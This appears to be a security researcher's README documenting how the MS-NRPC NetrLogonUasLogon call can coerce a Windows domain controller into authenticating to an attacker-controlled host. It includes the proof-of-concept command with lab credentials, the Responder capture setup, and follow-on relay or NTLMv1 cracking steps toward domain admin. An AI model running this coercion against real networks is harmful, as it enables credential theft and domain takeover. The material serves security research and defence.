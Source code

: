 # MS-NRPC - Remote call to NetrLogonUasLogon (opnum 0)

## Summary

 - **Protocol**: [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

 - **Protocol UUID**: 12345678-1234-abcd-ef00-01234567cffb

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\PIPE\NETLOGON`

 - **Function name**: [`NetrLogonUasLogon`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/4db6051c-9876-446c-957d-c8f6aecbdb9a)

 - **Function operation number**: `0`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\NETLOGON` and bind to the desired [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol (with uuid `12345678-1234-abcd-ef00-01234567cffb` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-NRPC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\NETLOGON` This pipe is connected to the protocol [[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f) and allows to call RPC functions of this protocol. We will then call the remote [`NetrLogonUasLogon`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/4db6051c-9876-446c-957d-c8f6aecbdb9a) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrLogonUasLogon('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrLogonUasLogon(
   [in, unique, string] LOGONSRV_HANDLE ServerName,
   [in, string] wchar_t* UserName,
   [in, string] wchar_t* Workstation,
   [out] PNETLOGON_VALIDATION_UAS_INFO* ValidationInformation
 );
```

## References

 - Documentation of protocol [MS-NRPC]: Netlogon Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f

 - Documentation of function `NetrLogonUasLogon`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/4db6051c-9876-446c-957d-c8f6aecbdb9a